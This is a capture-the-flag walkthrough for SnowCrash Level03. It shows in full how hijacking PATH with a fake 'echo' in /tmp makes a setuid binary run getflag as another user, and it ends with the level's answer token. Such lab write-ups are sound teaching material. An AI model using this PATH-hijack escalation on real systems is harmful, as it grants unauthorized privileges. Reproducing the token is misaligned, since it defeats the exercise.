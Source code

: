 # Level03

## Hint

Run the following command:
```
strings level03
```
Good luck !

## Answer

Let's check our current directory:
```
level03@SnowCrash:~$ ll
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 ./
d--x--x--x 1 root    users    340 Aug 30  2015 ../
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout*
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile*
```

Great ! We found an executable file, let's run it first !
```
level03@SnowCrash:~$ ./level03
Exploit me
```

We notice that it has the `s` permission, so it will be executed as flag03. Futhermore, when we run `strings level03` we see that the file contains the following string:
```
level03@SnowCrash:~$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

We know that this line is executed since it did print "Exploit me" when we ran it. Alright, let's see if we can modify the `echo` command to execute our getflag command:
```
level03@SnowCrash:~$ whereis echo
echo: /bin/echo /usr/share/man/man1/echo.1.gz
level03@SnowCrash:~$ echo getflag > /bin/echo
bash: /bin/echo: Permission denied
```

Nope we cannot, and it doesn't work with `env` either. In that case let's create a fake `echo` file in our `/tmp` directory and add it to the start of our path:
```
level03@SnowCrash:~$ echo getflag > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ PATH=/tmp:$PATH
```

Alright let's run the executable again:
```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```